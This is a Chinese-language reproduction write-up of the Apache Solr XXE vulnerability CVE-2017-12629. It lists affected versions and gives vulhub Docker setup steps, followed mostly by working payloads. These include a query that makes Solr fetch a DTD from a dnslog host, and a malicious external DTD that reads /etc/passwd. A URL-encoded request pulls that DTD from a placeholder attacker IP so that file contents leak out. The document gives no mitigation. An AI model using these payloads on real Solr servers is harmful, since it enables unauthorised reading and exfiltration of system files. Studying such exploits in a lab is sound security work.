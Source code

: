 ```yaml
---
title: Apache Solr XXE 漏洞 CVE-2017-12629
---
```


# Apache Solr XXE 漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）。

## 影响版本

<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>
<a-checkbox checked>Apache Lucene < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629-XXE
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容

```
/solr/admin/cores
```

![image-20220307150410724](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220307150410724.png)

发送请求

```
/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

查看dnslog得到请求

![b7254e29-c3a3-4654-b960-10f1a3589021](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/b7254e29-c3a3-4654-b960-10f1a3589021.png)

在自己的服务器上写入一个可访问的XML文件，内容写入

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件

```
/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fxxx.xxx.xxx.xxx%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![277c42b0-7152-457b-b4f2-faee9dc4849f](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/277c42b0-7152-457b-b4f2-faee9dc4849f.png)

注意这里的payload进行了url编码,请求的文件为 `http://xxx.xxx.xxx.xxx/1.dtd`，有更多需求自行更改写入的xml文件

